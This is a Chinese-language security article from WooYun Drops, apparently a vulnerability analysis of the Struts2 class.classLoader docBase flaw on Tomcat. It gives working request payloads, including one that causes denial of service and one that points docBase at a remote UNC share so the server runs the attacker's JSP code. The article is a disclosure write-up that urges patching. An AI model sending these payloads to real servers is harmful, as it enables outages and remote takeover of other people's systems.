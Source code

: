 # Struts2 Tomcat class.classLoader.resources.dirContext.docBase 赋值造成的 DoS 及远程代码执行利用!

2014/04/04 11:23 | [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

最近大家都在玩 Struts2 的 class.classLoader.官方在 S-20 的两漏洞,一个 commons-fileupload 造成的 DoS,这个就是让 cpu 慢点,不打补丁觉得也无所谓.另外一个,就是 class.classLoader 允许对象赋值.

看到大家总是在 tomcat8 上寻求利用,觉得很鸡肋(用户的应用更换 Tomcat 真没那么快),版本限制就是软肋.顿时,哥娇躯一震,发个无版本限制的利用,让大家提提神!

直接进主题,是可以对 Tomcat 的 docBase 属性直接赋值,`class.classLoader.resources.dirContext.docBase=x`

docBase 这个参数,是 Tomcat 进行应用目录映射路径配置的,如果赋值的地址不存在会发生什么?

## 0x01 细节

* * *

### 利用 1:造成 DoS(应用映射路径不存在,导致应用 404)

如图:

![2014040410310192682_png.jpg](img/img1_u53_jpg.jpg)

给当前应用目录,赋个不存在的地址:

```
?class.classLoader.resources.dirContext.docBase=不存在路径 
```

图:

![2014040410324488403_png.jpg](img/img2_u97_jpg.jpg)

![2014040410344310185_png.jpg](img/img3_u82_jpg.jpg)

这样当前应用,以后不管访问哪个地址都是 404 了(因为映射的目录不存在),造成 DoS 效果!

### 利用 2:远程代码执行

还是这个参数,既然可以指向任意地址,如果指向的地址映射目录,是攻击者可控的目录,那就是远程代码执行了.

docBase 参数有三种地址路径部署方式:

```
1.相对路径:以 Tomcat 的 webapps 目录为更目录
2.绝对路径:如,c://web/部署的应用目录 
```

但,还有一种地址配置方式,大家可能不会常用,那就是 UNC path(tomcat 是支持远程网络路径方式的):

```
3.UNC path(如,远程共享一个标准的 J2EE 应用目录) 
```

具体看这里：[`wiki.apache.org/tomcat/FAQ/Windows#Q6`](http://wiki.apache.org/tomcat/FAQ/Windows#Q6)

这里我内网其他主机共享一个标准的 J2EE 应用目录，如图:

![2014040410480871738_png.jpg](img/img4_u31_jpg.jpg)

![2014040410482029796_png.jpg](img/img5_u28_jpg.jpg)

本机访问共享：

```
//192.168.x.x/test 
```

![2014040410514763954_png.jpg](img/img6_u21_jpg.jpg)

```
http://127.0.0.1/s/example/HelloWorld.action?class.classLoader.resources.dirContext.docBase=//192.168.x.x/test 
```

这时应用的映射目录就是共享服务器的目录了,如图：

![2014040410582890074_png.jpg](img/img7_u7_jpg.jpg)

**注意这里，web 容器是当前服务器的，但运行的代码是共享服务器的 test 目录,java 代码是在当前服务器编译及运行的（这里不要混淆了！！！）**

test.jsp 的内容是，执行代码调用系统计算器的命令

![2014040411021566871_png.jpg](img/img8_u5_jpg.jpg)

那如果在公网上部署一个共享目录（无任何权限限制），那就是远程代码执行了。

当然，公网上部署一个共享目录也有网络限制，可能运营商限制了共享协议，被攻击服务器的操作系统是否支持 UNC path 等等，这里只是思路。主要是分享一下！

//用户还是老实打补丁,不要心存幻想!

版权声明：未经授权禁止转载 [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img6_u36_png.jpg)

### 相关日志

*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [并发请求导致的业务处理安全风险及解决方案](http://drops.wooyun.org/papers/831)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [Google DNS 劫持背后的技术分析](http://drops.wooyun.org/papers/1207)
*   [J2EE 远程代码执行那些事儿(框架层面)](http://drops.wooyun.org/papers/914)
*   [浅谈基于 NTP 的反射和放大攻击](http://drops.wooyun.org/papers/926)